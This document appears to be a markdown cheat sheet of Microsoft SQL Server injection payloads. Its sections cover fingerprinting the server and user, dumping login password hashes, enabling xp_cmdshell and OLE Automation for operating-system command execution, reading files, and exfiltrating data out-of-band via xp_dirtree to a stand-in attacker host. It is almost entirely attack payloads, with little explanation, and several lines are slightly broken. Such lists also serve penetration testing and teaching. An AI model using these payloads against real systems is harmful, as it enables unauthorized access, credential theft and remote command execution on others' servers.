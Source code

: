 ```yaml
---
title: MSSQL
date: 2017-05-13 16:52:33
---
```



### Comments
```SQL
/* */
--
;%00
```

### Version
```SQL
SELECT @@version;
SELECT @@VERSION LIKE '%2008%';
```

### User details
```SQL
SELECT user;
SELECT current_user;
SELECT SYSTEM_USER;
SELECT USER_NAME();
SELECT USER_NAME(2);
SELECT SUSER_SNAME();
SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;
SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);
```

### Database details
```SQL
SELECT DB_NAME();
SELECT DB_NAME(5);
SELECT name FROM master..sysdatabases;
```


### Database credentials
```SQL
SELECT name %2b ':'  %2b master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins;
```

### Server details
```SQL
SELECT @@servername; SELECT host_name(); SELECT SERVERPROPERTY('productversion'), SERVERPROPERTY('productlevel');
```


### Table Names
```SQL
SELECT name FROM master..sysobjects WHERE xtype='U';
SELECT table_name FROM information_schema.tables;
```

### Columns Names
```SQL
SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename';
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
```

### No Quotes
```SQL
SELECT * FROM Users WHERE username = CHAR(97) + CHAR(98) + CHAR(99);
ASCII(SUBSTRING(SELECT TOP 1 username FROM Users,1,1)) = 97;
ASCII(SUBSTRING(SELECT TOP 1 username FROM Users,1,1)) < 128;
```

### String Concatenation
```SQL
SELECT CONCAT('a','a','a');
SELECT 'a' %2b 'b' %2b 'c' %2b 'd';
```

### Conditionals
```SQL
IF 1=1 SELECT 'true' ELSE SELECT 'false';
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### Time-delay
```SQL
WAITFOR DELAY 'time_to_pass';
WAITFOR TIME 'time_to_execute';
```

### Enable Command Execution
```SQL
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure reconfigure;
EXEC sp_configure 'xp_cmdshell', 1;
EXEC sp_configure reconfigure;
```

### Command Execution
```SQL
EXEC master.dbo.xp_cmdshell 'cmd';
```

### Enable Alternative Command Execution
```SQL
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure reconfigure;
EXEC sp_configure 'OLE Automation Procedures', 1;
EXEC sp_configure reconfigure;
```

### Alternative Command Execution
```SQL
DECLARE @execmd INT;
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT;
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%system32cmd.exe /c';
```

### RunAs
```SQL
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'password', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');
EXECUTE AS USER = 'FooUser';
```

### Read Files
```SQL
BULK INSERT dbo.temp FROM 'c:\foobar.txt' WITH ( ROWTERMINATOR='n' );
```

### Out-of-Band Retrieval
```SQL
;declare @q varchar(200);set @q='\attacker.controlledserver'+(SELECT SUBSTRING(@@version,1,9))+'.malicious.com/foo'; exec master.dbo.xp_dirtree @q; --  
```

### Substrings
```SQL
SUBSTRING(table_name,1,1) FROM information_schema.tables = 'A';
ASCII(SUBSTRING(table_name,1,1)) FROM information_schema.tables > 96;
```

### Retrieve Nth Line
```SQL
SELECT TOP 1 table_name FROM information_schema.tables;
SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables);
```
